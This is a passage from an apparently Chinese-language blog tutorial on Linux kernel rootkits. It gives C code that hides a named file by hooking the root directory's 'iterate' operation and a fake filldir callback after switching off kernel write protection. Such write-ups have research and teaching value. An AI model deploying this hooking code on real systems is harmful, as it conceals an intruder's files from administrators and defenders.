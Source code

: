 int fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
        // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
        fm_alert("Hiding: %s", name);
        return 0;
    }
    // 如果不是需要隐藏的文件，
    // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
{% endhighlight %}

接着是一个宏，用来替换某个目录下的`iterate`

{% highlight c %}
#define set_f_op(op, path, new, old)    \
    do{                                 \
        struct file *filp;              \
        struct file_operations *f_op;   \
        printk("Opening the path: %s.\n", path);    \
        filp = filp_open(path, O_RDONLY, 0);        \
        if(IS_ERR(filp)){                           \
            printk("Failed to open %s with error %ld.\n",   \
                path, PTR_ERR(filp));                       \
            old = NULL;                                     \
        }                                                   \
        else{                                               \
            printk("Succeeded in opening: %s.\n", path);    \
            f_op = (struct file_operations *)filp->f_op;    \
            old = f_op->op;                                 \
            printk("Changing iterate from %p to %p.\n",     \
                    old, new);                              \
            disable_write_protection();                     \
            f_op->op = new;                                 \
            enable_write_protection();                      \
        }                                                   \
    }while(0)
{% endhighlight %}

开关写保护的函数请参考`0001`实验。最后是入口出口函数中添加的内容：

{% highlight c %}
#define ROOT_PATH "/"
// in init
set_f_op(iterate, ROOT_PATH, fake_iterate, real_iterate);

if(!real_iterate){
    return -ENOENT;
}
// in exit
if(real_iterate){
    void *dummy;
    set_f_op(iterate, ROOT_PATH, real_iterate, dummy);
}
{% endhighlight %}
